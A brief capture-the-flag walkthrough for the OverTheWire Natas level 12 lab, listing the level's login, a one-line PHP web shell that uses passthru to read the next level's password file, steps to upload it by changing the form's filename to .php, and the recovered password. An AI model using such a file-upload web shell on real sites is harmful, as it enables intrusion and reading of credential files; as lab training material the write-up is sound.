 # [natas 12](http://natas12.natas.labs.overthewire.org)

    Username: natas12
    Password: EDXp0pS26wLKHZy1rDBPUZk0RKfLGIR3

First, create a file with codes below.

    <?
    passthru("cat /etc/natas_webpass/natas13");
    ?>

Change the filename value in post form to upload a PHP file.
Then browse to the file using the URL.

    jmLTY0qiPZBbaKc9341cqPQZBJv7MQbY 

